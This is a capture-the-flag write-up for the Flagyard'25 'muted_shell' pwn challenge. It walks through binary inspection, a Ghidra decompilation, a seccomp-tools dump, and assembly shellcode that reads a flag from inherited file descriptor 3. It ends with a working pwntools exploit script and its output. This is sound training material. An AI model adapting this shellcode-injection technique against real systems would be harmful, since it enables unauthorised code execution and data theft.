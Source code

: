 ```yaml
---
title: Flagyard'25 muted_shell (pwn, easy)
date: 2025-08-22
toc: true
---
```


<img width="1479" height="376" alt="image" src="https://github.com/user-attachments/assets/558c779d-ccdc-4848-bc44-33c27992dbba" />

## muted_shell: the binary
Let's take a look at the binary:

```bash
$ file muted_shell | tr ',' '\n'
muted_shell: ELF 64-bit LSB pie executable
 x86-64
 version 1 (SYSV)
 dynamically linked
 interpreter /lib64/ld-linux-x86-64.so.2
 BuildID[sha1]=d3eb2c77f71982b5288585a740784397c71076ae
 for GNU/Linux 3.2.0
 not stripped
 
$ pwn checksec muted_shell
[*] '/home/kali/Desktop/ctfs/flagyard/muted_shell/muted_shell'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      No canary found
    NX:         NX unknown - GNU_STACK missing
    PIE:        PIE enabled
    Stack:      Executable
    RWX:        Has RWX segments
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No

$ ./muted_shell
Send your shellcode:
^C
 ```

 So we can see that we are dealing with a PIE enabled 64 bit binary with an executable stack. When we run it, the binary prompts us to send shellcode. Since we don’t have shellcode yet, the next step is reversing the binary.

 ## Reverse Engineering

When we take a look at the main function in Ghidra, we see this:

 ```c
bool main(void)

{
  code *__buf;
  
  setbuf(stdin,(char *)0x0);
  setbuf(stdout,(char *)0x0);
  setbuf(stderr,(char *)0x0);
  open("./flag",0);
  __buf = (code *)mmap((void *)0x0,0x1000,7,0x22,-1,0);
  if (__buf != (code *)0xffffffffffffffff) {
    puts("Send your shellcode:");
    read(0,__buf,0x100);
    install_seccomp();
    (*__buf)();
  }
  else {
    perror("mmap");
  }
  return __buf == (code *)0xffffffffffffffff;
}
 ```

 `main()` function opens the flag file in read mode. Then it allocates memory with mmap() and stores shellcode there. It reads up to 0x100 bytes from stdin into the buffer. Then, seccomp is installed and our shellcode is executed. 

### can u read something without opening it?
 As, we know that `main()` function opens flag file in read mode and does not store the file descriptor returned by `open()`. Then how would we read the flag? 
 Hint suggests something about reading something without opening it. So, I researched how `open()` works. The file descriptor is not stored? No worries. Since `stdin = 0`, `stdout = 1`, `stderr = 2` are already taken, the kernel assigns the next free file descriptor, which is 3.
 So, we have to read the flag from the file descriptor 3.

### seccomp - wtf? 
Seccomp (Secure Computing Mode) is a Linux kernel feature that restricts the system calls a process can make. This prevents typical exploits like spawning a shell with `system("/bin/sh")`.

We can use `seccomp-tools` to see which syscalls are allowed by seccomp. If you don't have `seccomp-tools` installed you can do so by running following command:
```bash
$ gem install seccomp-tools
```
Dumping allowed syscalls for our binary:
```bash
$ seccomp-tools dump ./muted_shell
Send your shellcode:

 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000000  A = sys_number
 0001: 0x15 0x00 0x01 0x00000000  if (A != read) goto 0003
 0002: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0003: 0x15 0x00 0x01 0x00000001  if (A != write) goto 0005
 0004: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0005: 0x15 0x00 0x01 0x0000003c  if (A != exit) goto 0007
 0006: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0007: 0x06 0x00 0x00 0x80000000  return KILL_PROCESS
```

As we can see that only read, write & exit syscalls are allowed. 

## Crafting the shellcode

Since the file descriptor for the flag is 3, we can read it and write its content to stdout (1):

```asm
/* read(3, rsp, 0x100) */
xor rdi, rdi
mov dil, 3
mov rsi, rsp
mov rdx, 0x100
mov eax, 0
syscall

/* write(1, rsp, rax) */
mov edi, 1
mov rdx, rax
mov eax, 1
syscall

/* exit(0) */
xor edi, edi
mov eax, 60
syscall
```

## Exploit

We can use pwntools to assemble and send our shellcode:

```python3
from pwn import *

context.arch = "amd64"
asm_code = """
    /* read(3, rsp, 0x100) */
    xor rdi, rdi
    mov dil, 3
    mov rsi, rsp
    mov rdx, 0x100
    mov eax, 0
    syscall

    /* write(1, rsp, rax) */
    mov edi, 1
    mov rdx, rax
    mov eax, 1
    syscall

    /* exit(0) */
    xor edi, edi
    mov eax, 60
    syscall
"""

shellcode = asm(asm_code)

p = process("muted_shell")
p.sendline(shellcode)
p.interactive()
```

When we run it:

```bash
$ python3 exploit.py
[!] Could not find executable 'muted_shell' in$PATH, using './muted_shell' instead
[+] Starting local process './muted_shell': pid 1028017
[*] Switching to interactive mode
[*] Process './muted_shell' stopped with exit code 0 (pid 1028017)
Send your shellcode:
FlagY{test_flag}
[*] Got EOF while reading in interactive
$
[*] Got EOF while sending in interactive
```

To exploit a remote instance, replace `process("./muted_shell")` with:
```python
p = remote("IP_ADDRESS", PORT)
```

